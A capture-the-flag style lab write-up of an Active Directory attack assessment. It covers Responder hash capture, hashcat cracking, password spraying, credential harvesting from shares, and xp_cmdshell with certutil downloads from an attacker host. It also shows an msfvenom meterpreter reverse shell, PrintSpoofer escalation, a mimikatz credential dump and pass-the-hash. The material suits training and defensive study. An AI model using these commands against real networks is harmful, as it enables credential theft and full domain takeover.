

<div align='center'>

# **Lab 28: AD Enumeration & Attacks - Skills Assessment Part II** 

</div>

## **Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?**   

We will use responder for enumeration

**Identify network interface: ens224**


**Run responder**

```zsh
sudo responder -I ens224 -v
```

We get the [hash](../docs/assess_ab920_hash.txt) of the account `AB920`

- **Answer:** AB920


## **What is this user's cleartext password?**

Use `hashcat` to crack the hash

```zsh
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


We get the password `weasal`

- **Answer:** weasal


## **Submit the contents of the C:\flag.txt file on MS01.**

Ping sweep

```zsh
fping -asgq 172.16.7.0/23
```


We get 4 IP addresses: `172.16.7.3`, `172.16.7.50`, `172.16.7.60`, `172.16.7.240`. We have known that 172.16.7.240 is the IP of the attacker's machine

Crackmapexec to discover users and machines name

```zsh
crackmapexec smb <IP address> --users
```


We get the IP of the machine MS01: `172.16.7.50`

Use `evil-winrm` to login to the machine MS01 with the credential `AB920:weasal` and get the flag

```zsh
evil-winrm -i 172.16.7.50 -u AB920 -p weasal
```



- **Answer:** aud1t_gr0up_m3mbersh1ps!


## **Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.**

**Enumerate Password Policy**

```zsh
rpcclient -U "AB920" 172.16.7.3
rpcclient $> getdompwinfo    
```


The password policy is weak as the minimum password length is 1

**Trying Internal Password Spraying**

Enumerate valid users

```zsh
sudo crackmapexec smb 172.16.7.3 --users -u AB920 -p weasal > users.txt
cat users.txt | awk '{ print $5 }' | cut -d '\' -f2 > valid_users.txt
```

Use `kerbrute` for password spraying with the password `Welcome1`

```zsh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt  Welcome1
```


We get the user `BR086`

- **Answer:** BR086


## **What is this user's password?**

- **Answer:** Welcome1


## **Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?**

**Share Enumeration**

```zsh
sudo crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 --shares
```


We get 4 readable shares: `Department Shares`, `IPC$`, `NETLOGON`, `SYSVOL`

Look for some interesting files, we find one in `Department Shares` share (web.config)

```zsh
sudo crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 -M spider_plus --share 'Department Shares'
cat /tmp/cme_spider_plus/172.16.7.3.json
```


Access the file `web.config` and get the credential

```zsh
smbclient //172.16.7.3/Department\ Shares -U=BR086%Welcome1
smb: \> cd IT\Private\Development\
smb: \IT\Private\Development\> get web.config
```


We get the credential `netdb:D@ta_bAse_adm1n!`

- **Answer:** D@ta_bAse_adm1n!


## **Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.**

**Privileged Access**

```zsh
mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60
SQL> enable_xp_cmdshell
```


**Discover PrintNightmare vulnerability**


Machine IP address: 172.16.7.60

```zsh
rpcdump.py @172.16.7.60 | egrep 'MS-RPRN|MS-PAR'
```


**Exploit PrintNightmare vulnerability**

Send [PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer) to the attack machine. Host a simple HTTP server on the attack machine

```zsh
python -m http.server 8000
```


From the SQL01 machine, download PrintSpoofer.exe from the attacker machine

```powershell
xp_cmdshell certutil -urlcache -f http://172.16.7.240:8000/PrintSpoofer64.exe C:\Users\Public\PrintSpoofer64.exe
```


Use mfsvenom to create a reverse shell executable call `rshell.exe`

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.7.240 LPORT=8080 -f exe > rshell.exe
```

Similarly, send `rshell.exe` to the attack machine and send it to the target machine

```powershell
xp_cmdshell certutil -urlcache -f http://172.16.7.240:8000/rshell.exe C:\Users\Public\rshell.exe
```


Configuring & Starting MSF multi/handler (msfconsole)

```zsh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.7.240
set LPORT 8080
run
```


Execute PrintSpoofer.exe to get the SYSTEM shell

```powershell
xp_cmdshell C:\Users\Public\PrintSpoofer64.exe -c "C:\Users\Public\rshell.exe"
```

Read the flag


## **Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host**

We used mimikatz to dump the password

```powershell
certutil -urlcache -f http://172.16.7.240:8000/mimikatz.exe mimikatz.exe
```


Run mimikatz `lsadump::lsa /inject` to dump the password hashes. This command is used to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file

```powershell
lsadump::lsa /inject
```


We get the password hash of the user `Administrator`: `bdaffbfe64f1fc646a3353be1c2c3c99`

Try to perform a pass-the-hash attack with evil-winrm and it work

```zsh
evil-winrm -i 172.16.7.50 -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```

Get the flag


- **Answer:** exc3ss1ve_adm1n_r1ights!

## **Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What this user's account name?**

**Use BloodHound to find the user**

Send SharpHound to the victim machine

```zsh
evil-winrm -i 172.16.7.50 -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```


Collect data with SharpHound

```powershell
SharpHound.exe -c All --zipfilename ILFREIGHT --ldapusername AB920 --ldappassword weasal
```


Load the data into BloodHound. Search for Domain Admins group and find the users have the right to this group by choosing `Explicit Object Controllers` 


We have found the user `CT059` has the `GenericAll` rights over the Domain Admins group

- Answer: `CT059`

##  **Crack this user's password hash and submit the cleartext password as your answer.**

**Use Inveigh to capture the hash**

Send `Inveigh.exe` to the victim machine


Run Inveigh


We get the [hash](../docs/assess_CT509_hash.txt) of the user `CT059`

Crack the hash with hashcat

```zsh
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


We get the password `charlie1`

- **Answer:** charlie1

